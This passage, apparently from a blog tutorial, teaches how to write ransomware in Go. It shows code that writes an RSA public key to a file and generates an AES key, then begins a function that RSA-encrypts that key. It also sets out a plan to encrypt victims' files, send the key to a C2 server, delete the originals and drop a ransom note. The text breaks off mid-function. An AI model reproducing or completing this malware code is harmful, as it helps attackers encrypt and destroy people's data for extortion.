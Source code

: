 - Finally, the public key is written to a file (`public.pem`).

```
publicKeyFile, err := os.Create("public.pem")
if err != nil {
    return err
}
defer publicKeyFile.Close()
```

```
_, err = publicKeyFile.Write(publicKeyPEM)
```

The public key is now securely stored in `public.pem`.

Our public and private keys are now ready for usage in encryption and decryption.

* * *

Let’s go code our encryptor.

The idea of the code can be divided into:

1\. Encrypting files with **AES-GCM**  
2\. Using **RSA encryption** to protect the AES key  
3\. Sending the **AES key to a remote C2 server**  
4\. **Deleting original files** after encryption  
5\. Dropping a **ransom note**

#### 1. AES Key Generation

The script first generates a **random 32-byte AES key**, which will be used for encrypting files.

```
func generateAESKey() ([]byte, error) {
	key := make([]byte, 32) // 256-bit AES key
	_, err := rand.Read(key) // Read cryptographically secure random bytes
	if err != nil {
		return nil, err
	}
	return key, nil
}
```

- The `rand.Read()` function ensures **strong randomness**, making the encryption key unpredictable.
- The key will later be **used for AES encryption** of the victim’s files.

#### 2. RSA Encryption for Key Transmission

Since symmetric encryption (AES) requires both encryption and decryption with the **same key**, real-world ransomware needs a way to **securely transmit** this key to the attacker.

### Encrypting the AES Key with RSA

```
func encryptAESKeyWithRSA(aesKey []byte) ([]byte, error) {
	block, _ := pem.Decode([]byte(publicKeyPEM)) // Decode PEM format
	if block == nil {
		return nil, fmt.Errorf("failed to parse RSA public key")
	}
  pubKey, err := x509.ParsePKIXPublicKey(block.Bytes)
   if err != nil {
    return nil, err
   }
   rsaPubKey, ok := pubKey.(*rsa.PublicKey)
   if !ok {
    return nil, fmt.Errorf("failed to cast to RSA public key")
   }
 // Encrypt AES key using RSA-OAEP (Optimal Asymmetric Encryption Padding)
```